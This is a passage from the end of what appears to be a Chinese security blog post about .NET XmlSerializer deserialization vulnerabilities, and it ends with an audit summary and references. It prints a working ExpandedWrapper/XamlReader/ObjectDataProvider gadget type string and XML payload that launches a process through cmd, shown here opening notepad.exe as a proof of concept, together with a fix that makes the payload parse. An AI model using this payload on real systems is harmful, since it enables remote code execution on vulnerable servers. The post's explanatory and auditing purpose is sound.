 >Type

```
System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089

```

>XML

```

<ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
<ExpandedElement/>
<ProjectedProperty0>
    <MethodName>Parse</MethodName>
    <MethodParameters>
        <anyType  xsi:type="xsd:string">
            &lt;ResourceDictionary xmlns=&quot;http://schemas.microsoft.com/winfx/2006/xaml/presentation&quot; xmlns:x=&quot;http://schemas.microsoft.com/winfx/2006/xaml&quot; xmlns:System=&quot;clr-namespace:System;assembly=mscorlib&quot; xmlns:Diag=&quot;clr-namespace:System.Diagnostics;assembly=system&quot;&gt;
                &lt;ObjectDataProvider x:Key=&quot;LaunchCmd&quot; ObjectType=&quot;{x:Type Diag:Process}&quot; MethodName=&quot;Start&quot;&gt;
                    &lt;ObjectDataProvider.MethodParameters&gt;
                        &lt;System:String&gt;cmd&lt;/System:String&gt;
                        &lt;System:String&gt;/c notepad.exe&lt;/System:String&gt;
                    &lt;/ObjectDataProvider.MethodParameters&gt;
                &lt;/ObjectDataProvider&gt;
            &lt;/ResourceDictionary&gt;
        </anyType>
    </MethodParameters>
    <ObjectInstance xsi:type="XamlReader"></ObjectInstance>
</ProjectedProperty0>
</ExpandedWrapperOfXamlReaderObjectDataProvider>

```

这里位于`anyType`的`xmlns:xsi`如果按照生成的payload使用会造成`xsi`是未声明的前缀，所以这里我把他提前到`ExpandedWrapperOfXamlReaderObjectDataProvider` 。

# 0x03 总结


.NET反序列化的攻击链还是比较难找。审计的话就看`type` 和 `xml` 这2个值是否可控。

文章如有错误，多多提醒，万分感谢



### 参考文章:

[《.NET高级代码审计（第一课）XmlSerializer反序列化漏洞》](https://www.anquanke.com/post/id/172316)

[《.Net反序列化那些事》](https://mp.weixin.qq.com/s/0ztdMsdEeEBWM0j8uEF_Cw)
